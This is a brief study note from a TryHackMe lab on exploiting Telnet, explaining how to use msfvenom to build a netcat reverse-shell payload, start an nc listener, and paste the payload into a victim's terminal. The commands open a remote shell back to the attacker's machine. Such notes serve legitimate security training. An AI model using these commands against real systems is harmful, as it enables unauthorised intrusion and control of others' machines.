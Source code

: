 
# How to generate and encode a netcat reverse shell

-> msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R       (!! [] note needed when writing IP)

I wil generate a command line you'll need to add in the terminal of the victim. But before that, we need to start anetcat listener on our local machine to get the reverse shell

-> nc -lvp [listening port]   (!! same as above)

THEN paste the command line obtained from the msfvenom step in the terminal of the victim.

## Source : 
Tryhackme, Network Services, Exploiting Telnet : https://tryhackme.com/room/networkservices

